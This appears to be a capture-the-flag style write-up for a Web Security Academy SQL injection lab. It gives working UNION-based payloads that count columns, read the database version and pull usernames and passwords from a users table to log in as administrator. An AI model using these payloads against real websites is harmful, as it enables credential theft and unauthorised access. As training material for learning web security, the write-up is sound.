 # SQL Injection Lab 10 - SQL injection UNION attack, retrieving multiple values in a single column

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

3. Determine the version of the database:
   - Test: `/filter?category=Gifts' UNION SELECT '1',version()--`
   - Result: So the version of the database is PostgreSQL 12.20. And we see which column is compatible with the string data.

4. Username and password of the administrator:
   - Test: `/filter?category=Gifts' UNION SELECT null,concat(username,' --- ',password) FROM users--`
   - Result: You'll see the username and password of the administrator.

5. Login to the administrator account

## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_10.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

